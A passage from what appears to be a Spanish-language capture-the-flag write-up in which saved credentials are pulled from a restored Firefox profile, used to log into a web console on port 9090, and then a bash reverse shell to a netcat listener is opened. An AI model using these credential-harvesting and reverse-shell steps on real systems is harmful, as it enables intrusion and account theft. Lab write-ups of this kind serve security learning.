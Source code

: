 ```shell
chown kali:kali /<PATH_USER>/.mozilla/firefox/pe1jatah.default-esr
firefox -P
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-03 154213.png" alt=""><figcaption></figcaption></figure>

Le daremos a `Start Firefox` para que se nos habra la ventana con la informacion de dicho usuario en la ruta que configuramos para que cargue el `backup`.

Si nos vamos a `about:logins` veremos que nos muestra un usuario y contraseña:

```
User: marco
Pass: m@rc0!123
```

Ahora si nos metemos en la siguiente `URL`.

```
URL = https://<IP>:9090/
```

Veremos un `login` si metemos dichas credenciales, veremos que nos deja, veremos tambien de seguido que hay un apartado llamado `Terminal` si entramos veremos que tenemos literalmente la terminal del usuario `marco`, pero vamos a realizar un `reverse shell` mejor.

```shell
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Antes de enviarlo nos pondremos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```
